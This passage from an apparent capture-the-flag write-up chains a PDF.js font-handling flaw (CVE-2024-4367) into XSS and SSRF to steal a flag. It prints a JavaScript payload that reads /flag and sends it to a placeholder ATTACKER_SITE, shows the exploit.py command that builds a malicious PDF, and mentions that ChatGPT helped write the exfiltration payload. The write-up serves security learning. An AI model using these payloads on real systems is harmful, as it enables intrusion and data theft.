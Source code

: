 So, how did I develop my XSS payload? I told ChatGPT I want to `fetch the contents of another page and then send them to another web server` 🤓

It initially provides some ridiculously long payloads, but through our iterative feedback (aka "shorter plz"), we guide it to produce a more reasonable one.

{% code overflow="wrap" %}
```js
fetch("/flag")
    .then((r) => r.text())
    .then((t) => fetch(`https://ATTACKER_SITE/?c=${encodeURIComponent(t)}`));
```
{% endcode %}

I got some errors and figured I wasn't escaping all the required characters, so I Googled `CVE-2024-4367 PoC` and came across another [PoC](https://github.com/LOURC0D3/CVE-2024-4367-PoC).

> A type check was missing when handling fonts in PDF.js, which would allow arbitrary JavaScript execution in the PDF.js context. This vulnerability affects Firefox < 126, Firefox ESR < 115.11, and Thunderbird < 115.11.

> If pdf.js is used to load a malicious PDF, and PDF.js is configured with isEvalSupported set to true (which is the default value), unrestricted attacker-controlled JavaScript will be executed in the context of the hosting domain.

{% code overflow="wrap" %}
```bash
python exploit.py "fetch('/flag').then(r => r.text()).then(t => fetch(`https://ATTACKER_SITE/?c=${encodeURIComponent(t)}`));"
```
{% endcode %}

The PDF was generated successfully, but I got an error about `bad substitution.` Turns out I just needed to escape some characters.

{% code overflow="wrap" %}
```bash
python exploit.py "fetch('/flag').then(r => r.text()).then(t => fetch(\`ATTACKER_SITE/?c=\${encodeURIComponent(t)}\`));"
[+] Created malicious PDF file: poc.pdf
[+] Open the file with the vulnerable application to trigger the exploit.
```
{% endcode %}

When I upload the PDF and visit the URL, my browser console and web server logs are filled with errors.

{% code overflow="wrap" %}
```bash
200		GET	/?c=%7B%22error%22%3A%22Access%20denied%22%7D
```
{% endcode %}

### SSRF

Now that we know we can exfiltrate the HTTP response, we just need to share the link of our note with the admin/bot. The XSS exploit will _forge_ a _request_ to the `/flag` endpoint, and since it comes from the _server-side_ (localhost), the validation check will pass.
